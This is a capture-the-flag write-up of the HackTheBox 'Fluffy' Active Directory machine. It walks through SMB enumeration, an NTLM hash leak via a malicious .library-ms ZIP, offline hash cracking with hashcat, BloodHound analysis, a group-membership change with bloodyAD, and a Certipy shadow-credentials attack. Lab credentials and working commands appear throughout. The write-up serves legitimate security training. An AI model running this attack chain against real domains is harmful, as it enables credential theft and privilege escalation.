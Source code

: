 ```yaml
---
title: "HackTheBox Fluffy Writeup"
date: 2025-08-10
categories: [HTB, Machines]
tags: [Windows, ADCS, CVE,AD]
image:
  path: /assets/2.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Fluffy HTB — blog writeup cover"
---
```



## Machine Information
As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account:  ```j.fleischman``` / ```J0elTHEM4n1990!```

## Nmap Scan
```shell
sudo nmap 10.10.11.69 -T4 -A -open -p-
```
```shell
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-21 04:05:16Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:58+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:56+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-07-21T04:06:58+00:00; +6h59m59s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:56+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
49727/tcp open  msrpc         Microsoft Windows RPC
49750/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-21T04:06:17
|_  start_date: N/A
|_clock-skew: mean: 6h59m58s, deviation: 0s, median: 6h59m58s

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   170.58 ms 10.10.16.1
2   170.95 ms 10.10.11.69
```
We get some important data about target:

## SMB

So i started by testing the SMB port using the initial credentials:
```shell
nxc smb fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
```
Then we expanded and downloaded everything using:
```shell
nxc smb fluffy.htb  -u 'j.fleischman' -p 'J0elTHEM4n1990!' -M spider_plus -o DOWNLOAD_FLAG=True
```
![nxc_smb](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FX7MnVPxXGOWE7TkFP55N%252FScreenshot%2520From%25202025-07-24%252005-09-46.png%3Falt%3Dmedia%26token%3D10b19759-4999-4bd5-a4f0-f8570a1683b6&width=400&dpr=3&quality=100&sign=2618b13f&sv=2)
Checked the downloaded SMB files and found a PDF called Upgrade_Notice.pdf looked suspicious from the IT department listing CVEs affecting the current Windows version. 
One of them, CVE-2025-24996 (NTLM File Path Spoofing), has a working PoC on GitHub.
![Upgrade_Notice.pdf](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252Fq0AnquA03OphFgIg80bn%252Fimage.png%3Falt%3Dmedia%26token%3Dd062d06d-46a3-4c5c-be8f-6e49eb429c8e&width=400&dpr=3&quality=100&sign=13faa9f9&sv=2)

## CVE-2025-24996: NTLM Hash Leak via .library-ms File 
the link of POC: ```https://github.com/FOLKS-iwd/CVE-2025-24071-msfvenom```

![CVE-2025-24071](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FIgOwImNjv6GsZiXfzsUm%252Fimage.png%3Falt%3Dmedia%26token%3Db1be3b27-934f-4639-8342-cc405d6f9c2b&width=400&dpr=3&quality=100&sign=482ceac1&sv=2)

Let’s start exploiting it.

After following the steps in the PoC:
- Loaded the Metasploit module
- Set the attacker IP, filename, library name, and SMB share
- Ran the module and generated the malicious ZIP file ```(exploit.zip)```

Once the victim extracts the ZIP, Windows Explorer automatically processes the embedded ```.library-ms``` file. This triggers a connection attempt to the attacker's SMB server, resulting in NTLMv2 hash leakage.

You should see an output similar to the following:
![exploit](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252F9PJS7vnaCDkjdUxNUFbX%252FScreenshot%2520From%25202025-07-21%252004-06-39.png%3Falt%3Dmedia%26token%3D3b0c5fc8-8efe-4144-a186-10f94fd7b702&width=768&dpr=4&quality=100&sign=8ad495af&sv=2)
This hash can now be cracked offline using tools like hashcat or john to recover the user's cleartext password.

```shell
hashcat -m 5600 -a 0 ntlmv2.txt /home/kali/Downloads/rockyou.txt
```

![hashcat](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FapeoNuGmbWdeIa26qjBJ%252FScreenshot%2520From%25202025-07-21%252004-22-19.png%3Falt%3Dmedia%26token%3D6ca0f956-32f3-483b-84dc-ee506bf573c3&width=400&dpr=3&quality=100&sign=98ac6e59&sv=2)

now you have credentials of user target ```P.AGILA:prometheusx-303```


## BloodHound

I used the credentials for  ```p.agila@fluffy.htb``` and analyzed them with BloodHound.

```shell
bloodhound-python -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb -ns 10.10.11.69 -c All --zip
```
I found that this user is part of the ```SERVICE ACCOUNT MANAGERS group```, which has ```GenericAll``` privileges over the ```SERVICE ACCOUNTS group```. 
This means full control i can add or remove users, and modify settings for that group.
![BloodHound1](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FQGwJrGqNuvim9ifURpEc%252FScreenshot%2520From%25202025-07-24%252006-43-18.png%3Falt%3Dmedia%26token%3Ddd2630e6-68c2-4f23-ad3d-c72100a91ba8&width=400&dpr=3&quality=100&sign=130f1eb3&sv=2)
let's see what we got, SERVICE ACCOUNTS contains key accounts such as:
- WINRM_SVC@FLUFFY.HTB
- LDAP_SVC@FLUFFY.HTB
- CA_SVC@FLUFFY.HTB
![BloodHound2](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FfBcmqHW18XBDWYZk4bS4%252Fimage.png%3Falt%3Dmedia%26token%3Da2871440-54a6-4ee7-b090-f9d4c2a2b8e4&width=400&dpr=3&quality=100&sign=addd2495&sv=2)
If we see the user ```CA_SVC```, it's likely related to Certificate Services, and it may open a path to Active Directory Certificate Services (AD CS) exploitation.

This gives ```p.agila``` the ability to modify attributes of ```ca_svc```, a critical step for Shadow Credentials or Other attacks related to Certificate Services.
```shell
bloodyAD --host '10.10.11.69' -d 'dc01.fluffy.htb' -u 'p.agila' -p 'prometheusx-303'  add groupMember 'SERVICE ACCOUNTS' p.agila
```
By adding ```p.agila``` to SERVICE ACCOUNTS, I can potentially escalate privileges and gain further control through these service accounts.
![bloodyAD](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FMfl0tQ7Cp461M9UjB3fL%252Fimage.png%3Falt%3Dmedia%26token%3D11314faf-8c66-4310-9a9d-0ea0b75080c9&width=400&dpr=3&quality=100&sign=96288301&sv=2)
Now we are ```p.agila``` added to ```SERVICE ACCOUNTS``` what next step???

After some research, I discovered that the attack path involves Active Directory Certificate Services (AD CS) exploitation am one pf this attacks called To better understand this technique, I referenced this detailed blog:

https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally

https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6

## Shadow Credentials → $User 

> The old tool certipy-ad is outdated, so I used the updated and maintained Certipy tool instead https://github.com/ly4k/Certipy don't mix between them
{: .prompt-warning }

```shell
certipy shadow -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -account 'WINRM_SVC' auto
```
![Certipy](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FpZSFWengHFPG9lJl0gBq%252Fimage.png%3Falt%3Dmedia%26token%3Dfdb6141b-4c81-477c-a741-1d1a2ae7b14b&width=400&dpr=3&quality=100&sign=b757e698&sv=2)

The ```KRB_AP_ERR_SKEW``` error occurs because your machine’s clock is out of sync with the Domain Controller ```10.10.11.69```, breaking Kerberos authentication for the Shadow Credentials attack. Fix it by syncing time with ```sudo ntpdate 10.10.11.69```

> Kerberos SessionError: KRB_AP_ERR_SKEW (Clock skew too great)
It means your machine's clock is out of sync with the domain controller and Kerberos hates that.
Fix it with:
{: .prompt-warning }
```shell
bashCopyEditsudo systemctl stop systemd-timesyncd
sudo ntpdate 10.10.11.69
This stops the system time service and manually syncs your clock with the DC (10.10.11.69), so you can get Kerberos tickets properly again.
```
